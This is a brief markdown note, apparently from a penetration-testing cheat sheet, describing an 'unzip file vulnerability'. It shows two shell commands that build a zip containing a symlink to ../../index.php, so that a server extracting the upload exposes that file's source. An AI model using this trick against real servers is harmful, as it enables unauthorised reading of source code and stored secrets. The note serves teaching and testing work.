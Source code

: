 # Unzip file vulnerability

Imagine that we can unzip a .zip that we uploaded in /upload/id/
And we want to extract the content of index.php 

Create a symlink

```bash
ln -s ../../index.php link

zip test.zip link
```
